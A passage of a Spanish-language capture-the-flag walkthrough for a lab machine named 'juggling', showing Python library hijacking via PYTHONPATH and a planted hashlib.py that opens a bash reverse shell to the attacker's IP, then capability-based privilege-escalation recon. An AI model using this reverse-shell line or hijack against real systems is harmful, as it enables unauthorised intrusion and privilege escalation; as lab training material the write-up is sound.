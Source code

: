 En la máquina víctima, vamos al directorio `/tmp` y vamos a crear un archivo llamado `hashlib.py` donde este archivo sería la librería que quiere cargar python, y vamos a mandarnos una reverse shell.
```console
(remote) www-data@juggling:/tmp$ cat hashlib.py 
import os
os.system('bash -c "bash -i >& /dev/tcp/192.168.182.5/443 0>&1"')
```

Ahora, si estamos en escucha por el puerto 443 con `pwncat-cs` y ejecutamos el script `/opt/md5.py` como `rehan` pero estableciendo la variable de entorno `PYTHONPATH` a `/tmp` conseguimos una consola como `rehan`

```console
(remote) www-data@juggling:/tmp$ sudo -u rehan PYTHONPATH=/tmp /opt/md5.py
```

```console
$ sudo pwncat-cs -lp 443
[17:09:03] Welcome to pwncat 🐈!                                                                 __main__.py:164
[17:09:05] received connection from 192.168.182.6:56164                                               bind.py:84
[17:09:05] 192.168.182.6:56164: registered new host w/ db                                         manager.py:957
(local) pwncat$                                                                                                 
(remote) rehan@juggling:/tmp$ id
uid=1001(rehan) gid=1001(rehan) groups=1001(rehan)
```

Podemos encontrar la flag de usuario.
```console
(remote) rehan@juggling:/home/rehan$ cat user.txt 
de0a7d9cb0e1ae...
```

# Privilege Escalation
Haciendo un reconocimiento básico de la máquina, encontramos una capability extraña.

```console
(remote) rehan@juggling:/home/rehan$ getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/local/bin/register cap_dac_override=ep
```

Haciendo una consulta a [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities) vemos que esta capability sirve para poder escribir cualquier archivo.

Además se nos dice que podríamos por ejemplo, sobrescribir un binario que sea de `root` para conseguir ejecutar código como superusuario, o podríamos sobreescribir el `/etc/passwd`...

Pero bueno, esta capability la tenemos para un binario en concreto, `/usr/local/bin/register`

Este binario tiene pinta de ser un binario personalizado, así que vamos a descargarlo a nuestra máquina de atacante y a echarle un vistazo.
